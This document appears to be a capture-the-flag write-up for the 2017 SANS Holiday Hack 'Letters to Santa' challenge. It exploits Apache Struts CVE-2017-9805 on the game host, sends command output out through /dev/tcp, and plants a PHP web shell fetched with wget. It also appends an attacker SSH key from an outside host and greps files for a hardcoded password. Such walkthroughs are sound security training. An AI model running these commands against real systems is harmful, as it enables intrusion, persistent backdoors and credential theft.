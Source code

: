 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:
  1. We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
  2. Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
  3. Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
  4. A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
  5. There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
  6. That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
  7. Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
  8. Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and CVE-2017-9805 Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
<!-- Development version -->
<a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC sh
nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

There appears to be another name on the certificate of the host. Let's let nmap's scripts scan that as well.

#+BEGIN_SRC sh
nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one in the same. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC sh
print request.text
#+END_SRC

Performing the same simple command above results in a lengthy Apache Tomcat
error with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the output
of the command. One trick we can pull is redirecting output to a special
pseudo device, =/dev/tcp/$host/$port=. First we'll need to set up a listener
on our end first.

#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC sh
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/1234"
#+END_SRC

The result on our end is:
#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/www/html=.

#+BEGIN_SRC sh
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question. Now on to the second.

It looks like we found our web root. Let's try out the
web shell they suggest in the hints from Josh Wright
[[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
We'll output it to a random file in the web root then
we can try to use it to execute commands using a browser.

#+BEGIN_SRC sh
./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php" -u https://dev.northpolechristmastown.com/orders.xhtml
#+END_SRC

Now we can access [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]] and look around. If we do an =ls= in this webshell, it just returns the local directory, =/var/www/html=. Nothing in here suggests that we have the webroot for the dev server, [[https://dev.northpolechristmastown.com]].

Let's run =find= to see if we can find the password in our webshell.

#+BEGIN_SRC sh
find / -xdev -type f -user alabaster_snowball 2>/dev/null | xargs grep password
#+END_SRC

Within the page full of results we see this:

#+BEGIN_SRC sh
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class: final String password = "stream_unhappy_buy_loss";
#+END_SRC

A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

#+BEGIN_SRC java
final String username = "alabaster_snowball";
final String password = "stream_unhappy_buy_loss";
#+END_SRC


** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

Leveraging the Apache Struts vulnerability, we can run =ls= on the common web root of =/var/www/html=, and get the filename of the page, then download it via the web server. Opening it up, we see that the topic is:

#+BEGIN_QUOTE
 On the Topic of Flying Animals
#+END_QUOTE

*** What is Alabaster Snowball’s password?

The trick here is just finding the right file, and the password is in cleartext in that file. We used =find= to =grep= all the files for "password".

#+BEGIN_QUOTE
=stream_unhappy_buy_loss=
#+END_QUOTE

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

*** SSH Key
    
Instead of doing the webshell, we could simply add an SSH key to the authorized keys file. Then, we simply SSH in as alabaster.

We want to be careful to not clobber anyone else's SSH keys, though. The commands that we want to run are:

#+BEGIN_SRC sh
cd /home/alabaster_snowball
# Make the .ssh directory, if it doesn't exist
mkdir .ssh
# ssh is very picky about permissions, so lock this down:
chmod 700 .ssh
cd .ssh

# Create the authorized_keys file, if it doesn't exist
touch authorized_keys
# ...and lock it down
chmod 600 authorized_keys

# Download our key
wget http://my.vps.host/a
# ...and add it to the end of the authorized_keys file
cat a >> authorized_keys
#+END_SRC

For our actual command, we'll do this as a one-liner:

#+BEGIN_SRC sh
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'cd /home/alabaster_snowball; mkdir .ssh; chmod 700 .ssh; cd .ssh; touch authorized_keys; chmod 600 authorized_keys; wget http://my.vps.host/a; cat a >> authorized_keys'
#+END_SRC

*** ripgrep

Ripgrep is a super fast grep replacement written in rust.
It does a better job at filtering binary files, so we can run this command that finishes in about a second:

#+BEGIN_SRC sh
$ mkdir /tmp/.rg
$ cd /tmp/.rg
$ wget https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz
$ tar xvzf ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz
$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | xargs ./ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class
3:            final String username = "alabaster_snowball";
4-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

If we didn't think to only look in our files, it only takes 4 seconds to search
the entire filesystem.  After ignoring proc and some debian package info, only
a few lines are output.

#+BEGIN_SRC sh
$ time ./ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster / --no-messages |grep -v /proc|grep -v deb.debian.org
/etc/crontab:#@reboot root /usr/bin/nohup /usr/bin/sudo -u alabaster_snowball /opt/apache-tomcat/start_tomcat.sh &
/etc/subuid:alabaster_snowball:296608:65536
/etc/passwd:alabaster_snowball:x:1003:1004:Alabaster Snowball,,,:/home/alabaster_snowball:/bin/rbash
/etc/group:alabaster_snowball:x:1004:
/etc/subgid:alabaster_snowball:296608:65536
/etc/systemd/system/tomcat.service:User=alabaster_snowball
/etc/systemd/system/tomcat.service:Group=alabaster_snowball
/usr/share/dh-python/dist/cpython3_fallback:alabaster python3-alabaster
/usr/share/dh-python/dist/cpython2_fallback:alabaster python-alabaster
/usr/lib/google-cloud-sdk/platform/gsutil/third_party/pyasn1/doc/source/conf.py:# html_theme = 'alabaster'
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";

real	0m4.095s
user	0m1.864s
sys	0m18.808s
#+END_SRC
